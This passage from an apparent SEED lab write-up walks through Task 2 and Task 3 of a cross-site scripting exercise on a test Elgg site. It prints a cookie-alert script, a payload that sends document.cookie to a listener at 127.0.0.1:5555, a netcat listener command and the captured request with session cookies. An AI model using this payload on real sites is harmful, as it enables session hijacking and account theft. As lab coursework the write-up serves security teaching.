 &lt;script&gt;alert(document.cookie);&lt;/script&gt;.&nbsp; I start by embedding the program by editing Samy’s profiles brief description to the JavaScript we modified.&nbsp; I then clicked save and was brought back to Samy’s main page.&nbsp; Upon doing so, I was met with a pop up containing the following: ‘Elgg=elm75v4asgl25r36q9dev0eat5’.&nbsp; This represents Samy’s own cookie value, which is displayed because we are logged into Samy during this session.&nbsp; We can show the attack works for any user that visits the page by logging out of Samy’s account and logging into Alice’s account and performing the same task.&nbsp; I navigate to Samy’s page as Alice and like before, we are met with a similar prompt displaying Alice’s cookie value which was shown as the following: ‘Elgg=9qiv8tl7c3fa1dm5e1l4ap7cl3’.&nbsp; This proves that cookie information can be displayed using XSS.

&nbsp;

<strong>&nbsp;</strong>

<h1>Task 3: Stealing Cookies from the Victim’s Machine</h1>
In this task, we want to able to capture the cookies of the victims who visit the attackers’ page instead of just printing them out to the victim as in task 2.&nbsp; We can achieve this by modifying the JavaScript program from the previous two tasks to include a HTTP request sent to the attacker that has the cookie information appended to it.&nbsp; The modified JavaScript program is given by the labs and is as follows:

&lt;script&gt;document.write(‘&lt;img src=http://127.0.0.1:5555?c=’ +

escape(document.cookie) + ‘ &gt;’);&lt;/script&gt;.&nbsp; We will use this JavaScript which creates an image tag with the source being the attackers IP address. When encountered, this will send a GET request to the attacker’s machine along with the added cookie information. We will also use the netcat command which will monitor traffic on the port 5555 and listen for our GET request.&nbsp; The command I used is as follows: netcat –l 5555 –v.&nbsp; The ‘-l’ option allows us to listen to a specified port and the ‘-v’ option gives for verbose.&nbsp; I start by running the netcat command via the terminal.&nbsp; I then navigate to the Elgg site and log in as Samy.&nbsp; I then click ‘Edit Profile’ and enter the JavaScript program into the brief description field.&nbsp; After doing so, I click save and the webpage reloads. I check the terminal to see that a request had been received.&nbsp; The results are below:

[10/14/20]seed@VM:~$ nc -l 5555 -v

Listening on [0.0.0.0] (family 0, port 5555)

Connection from [127.0.0.1] port 5555 [tcp/*] accepted (family 2, sport 59932)

GET /?c=Elgg%3D6utbihc8r2sbg3epjjg5o9dsr4 HTTP/1.1

Host: 127.0.0.1:5555

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0 Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://www.xsslabelgg.com/profile/samy

Connection: keep-alive

&nbsp;

This information includes Samy’s own cookie information since he was the user we were logged into during the session. &nbsp;We will now test this on another account so we can confirm this attack works on a victim.&nbsp; I log out of Samy’s account and log into Alice’s.&nbsp; I run the netcat command to monitor port
